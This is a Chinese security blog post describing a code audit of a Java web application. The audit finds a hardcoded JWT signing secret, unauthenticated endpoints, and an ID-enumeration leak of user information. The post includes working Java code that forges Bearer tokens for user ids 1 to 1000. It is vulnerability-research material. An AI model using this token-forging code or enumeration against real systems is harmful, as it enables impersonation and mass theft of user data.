# 记一次代码审计中用户信息泄露漏洞挖掘及POC编写 - 先知社区

记一次代码审计中用户信息泄露漏洞挖掘及POC编写

- - -

路边捡到一份代码，抱着学习的心态和朋友一起看了看。感觉到有些安全隐患，最后看到一个危害还不错的洞。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204000505-b8f8e3ca-91f5-1.png)

审java代码的话，常规思路就是首先就简单看看maven，然后就是鉴权，不过php、python的代码我一般是不分优先级看鉴权和sink。权限校验的代码通常会放在核心业务逻辑层。所以先简单看了看maven，了解此系统是否使用到危险的框架、组件版本，然后进一步去确认。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204000140-3ef94722-91f5-1.png)

鉴权关键文件：/core/security/util/JwtTokenUtil.java

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204000149-4456ea44-91f5-1.png)

阅读完此部分代码值得注意的点：1.可以看到这是一个用于生成和解析jwt的工具类，用于在验证身份和授权过程中jwt的处理（用于api类）、2.使用到的加密算法和SecretKey生成方式、3.其中使用到多个方法重载(有的构建/解析jwt方法太过简易)。那这就可以考虑是不是我们可以直接写个脚本生成一下有效token拿来进行身份认证，从而挖掘到未授权漏洞，不过还是需要进一步查看，因为第三点其中使用到多个方法重载，所以现在还不知道具体是怎么生成的token，怎么解析的token。  
除此之外还需注意的是一个注解: @passtoken()，先查询一下使用到了此注解的方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204000155-47f377f8-91f5-1.png)

即预设情况下就有以下16个可以存在@PassToken注解从而不需鉴权的接口  
新闻相关接口  
/api/xxx/news/page  
/api/xxx/news/info/{id}  
广告相关接口  
/api/xxx/ad/info/{id}  
/api/xxx/ad/get\_ad\_list  
demo类  
/api/xxx/demo/getUserToken  
/api/xxx/demo/errorLog  
/api/xxx/demo/log  
通知相关接口  
/api/xxx/notice/get\_notice  
发送手机验证码  
/api/xxx/sms\_code  
用户相关接口  
/api/xxx/user/mp/wx/auth  
/api/xxx/user/wx/auth  
/api/xxx/user/qq/auth/callback  
/api/xxx/user/qq/code  
/api/xxx/user/password/auth  
/api/xxx/user/mobile/auth  
/api/xxx/user/register

### 未授权访问信息泄露

重点关注demo类/api/xxx/demo/getUserToken：构建一个jwt，并返回。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204000311-752a1880-91f5-1.png)

这里跟进一下36行buildJWT，就会发现前面谈到的，这里用了最简单的那个方法去构造jwt，这里需留个印象。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204000317-789da108-91f5-1.png)

接着获取token验证有效性，这里需要做一些修改，将sub值改为账户id

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204000322-7bff4284-91f5-1.png)

访问api/v1/xxx/getUserToken获取token

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204000327-7f02d838-91f5-1.png)

前面提到了并不是所有方法都使用到的jwt来鉴权，jwt鉴权的范围在module->api->controller文件夹下的几个类中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204000332-81e035f0-91f5-1.png)

测试下来会发现有个较危险的接口：/api/xx/user/info  
攻击者可以遍历id参数（修改jwt中sub值即可）来获取全部用户信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204000343-880be712-91f5-1.png)

### POC编写

思路倒是很简单：枚举id->传入加密方法构建token->放入请求头Authorization->判断response  
不过就是很遗憾遇到两个Java代码转等效python的难点  
1.使用了UUID.randomUUID().toString()生成一个UUID字符串，而在python中没有等效的randomUUID  
2.generateKey中SecretkeySpec方法也很抽象，python写起来困难

所以最终就稍微麻烦了一点，先用java跑个Authorizition的字典，在用python去请求遍历吧，重点是能用就行。  
java部分代码如下，将token放入字典tokens.txt

```plain
import io.jsonwebtoken.Jwts;
import io.jsonwebtoken.SignatureAlgorithm;
import javax.crypto.SecretKey;
import javax.crypto.spec.SecretKeySpec;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.Key;
import java.util.*;

import org.apache.commons.codec.binary.Base64;
import org.joda.time.DateTime;

public class test {
    private static final SignatureAlgorithm JWT_ALG = SignatureAlgorithm.HS256;

    public static SecretKey generateKey(SignatureAlgorithm alg, String rule) {
        byte[] bytes = Base64.decodeBase64(rule);
        return new SecretKeySpec(bytes, alg.getJcaName());
    }


    public interface JwtConsts {
        String AUTH_HEADER = "Authorization";
        String SECRET = "defaultSecret";
        int EXPIRATION = 604800;
        String JWT_SEPARATOR = "Bearer ";
    }

    public static String buildJWT(SignatureAlgorithm alg, Key key, String sub, String aud, String jti, String iss, Date nbf, Integer duration) {
        DateTime iat = DateTime.now();
        DateTime exp = null;
        if (duration != null) {
            exp = (nbf == null ? iat.plusSeconds(duration) : new DateTime(nbf).plusSeconds(duration));
        }
        String compact = Jwts.builder()
                .signWith(alg, key)
                .setSubject(sub)
                .setAudience(aud)
                .setId(jti)
                .setIssuer(iss)
                .setNotBefore(nbf)
                .setIssuedAt(iat.toDate())
                .setExpiration(exp != null ? exp.toDate() : null)
                .compact();
        return io.github.yangyouwang.common.constant.JwtConsts.JWT_SEPARATOR + compact;
    }

    public static String buildJWT(String sub, String aud, String jti, String iss, Date nbf, Integer duration) {
        return buildJWT(JWT_ALG, generateKey(JWT_ALG, JwtConsts.SECRET), sub, aud, jti, iss, nbf, duration);
    }
    public static String buildJWT(String sub) {
        return buildJWT(sub, null, UUID.randomUUID().toString(), null, null, JwtConsts.EXPIRATION);
    }

    public Map<String,Object> userToken() {
        Map<String,Object> result = new HashMap<>(16);
        String token = buildJWT("1");
        result.put("token",token);
        return result;
    }

    public static void main(String[] args) {
        List<String> tokens = new ArrayList<>();

        for (int i = 1; i <= 1000; i++) {
            String token = buildJWT(String.valueOf(i));
            tokens.add(token);
        }

        try {
            Path filePath = Paths.get("tokens.txt");
            Files.write(filePath, tokens);
            System.out.println("Tokens have been successfully written to 'tokens.txt'.");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204000659-fd5b2cda-91f5-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231204000655-fafecb22-91f5-1.png)
